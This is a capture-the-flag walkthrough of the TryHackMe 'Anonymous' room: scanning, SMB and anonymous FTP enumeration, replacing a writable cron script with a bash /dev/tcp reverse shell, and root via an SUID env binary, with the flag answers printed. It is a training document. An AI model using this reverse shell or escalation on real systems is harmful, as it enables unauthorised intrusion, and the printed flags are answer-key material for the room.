# Room: Anonymous (*Not the hacking group*)

This CTF is available on [TryHackMe](https://tryhackme.com/room/anonymous)

## Basic Enum

Nmap / rustcan

```shell
IP=VICTIM
rustscan -a $IP | tee rustscan.log
[...]
PORT    STATE SERVICE      REASON
21/tcp  open  ftp          syn-ack ttl 63
22/tcp  open  ssh          syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63

```

- Enumerate the machine.  How many ports are open?
**4**

- What service is running on port 21?
**ftp**

- What service is running on ports 139 and 445?
**smb**

```shell
smbclient -L $IP (without any password)

Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

```

There's a share on the user's computer.  What's it called?

**pics**

> HINT: What's that log file doing there?... nc won't work the way you'd expect it to

```shell
ftp $IP

Name: anonymous
Password: (without any password)
ftp> ls
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
ftp> cd scripts
ftp> ls
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1376 Mar 05 22:23 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.

ftp> mget *
```
Let's have a look on those files.

```shell
cat clean.sh 
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

```shell
cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

```shell
cat to_do.txt        
I really need to disable the anonymous login...it's really not safe
```
Sure :smile: Let's have fun now and upload this simple script via ftp

```shell
cat clean.sh

#!/bin/bash
bash -i >& /dev/tcp/<AttackerIp>/<Port_Number> 0>&1
```

And on our side we just have to wait few seconds:

```shell
rlwrap nc -nlvp <Port_Number>            
listening on [any] <Port_Number> ...
namelessone@anonymous:~$ 
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
ls
pics  user.txt
cat user.txt
90d6f992585815ff991e68748c414740
namelessone@anonymous:~$ 

```

- usert.txt: **90d6f992585815ff991e68748c414740**

> HINT: This may require you to do some outside research

Cool ! So as usual in this case, gtfobins comes in :point_left:

```shell
find / -perm -u=s 2>/dev/null
[...]
/usr/bin/env
```

So let's try this: [gtfobins break out from restricted environments](https://gtfobins.github.io/gtfobins/env/#shell)

```shell
env /bin/bash -p
bash-4.4# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
cat /root/root.txt
4d930091c31a622a7ed10f27999af363
bash-4.4# 

```

- root.txt:**4d930091c31a622a7ed10f27999af363**
